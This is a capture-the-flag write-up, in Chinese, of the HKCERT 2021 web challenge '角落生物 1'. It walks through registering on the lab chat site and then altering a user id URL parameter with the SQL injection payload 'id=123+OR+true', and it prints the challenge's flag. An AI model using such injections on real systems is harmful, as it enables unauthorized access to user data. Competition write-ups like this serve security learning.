


# HKCERT2021 - 角落生物 1
- Write-Up Author: [Ivan Mak](https://hackmd.io/JH0dysBTSx6H1o1PZ7OqWg)

- Flag: hkcert21{squirrels-or-1-or-2-or-3-and-you}

## **Question:**
角落生物 1 (50 points)

>Challenge description

Find out Squirrel Master's password!

http://chalf.hkcert21.pwnable.hk:28062/

## Write up
1. 打開網站

URL : http://chalf.hkcert21.pwnable.hk:28062/index.php


2. 點擊 Join the community

URL : http://chalf.hkcert21.pwnable.hk:28062/chat/


3. 註冊帳號 & 登入

URL : http://chalf.hkcert21.pwnable.hk:28062/chat/register

隨便註冊:
```
AC : abcabc
PW : efgefg
```


URL : http://chalf.hkcert21.pwnable.hk:28062/chat/


4. 進入 chatroom 並試試發 message

URL : http://chalf.hkcert21.pwnable.hk:28062/chat/message/public



5. 點擊對話框查看個人 profile

URL : http://chalf.hkcert21.pwnable.hk:28062/chat/user?id=1207299191


發現漏洞
{:.error}

眼尖的小伙伴這時候就能發現網址欄的 ID 可以任意改寫

6. 修改網址欄

payload 就是 **id=123+OR+true**

URL : http://chalf.hkcert21.pwnable.hk:28062/chat/user?id=123+OR+true



Got the Flag!!
{:.success}

> hkcert21{squirrels-or-1-or-2-or-3-and-you}
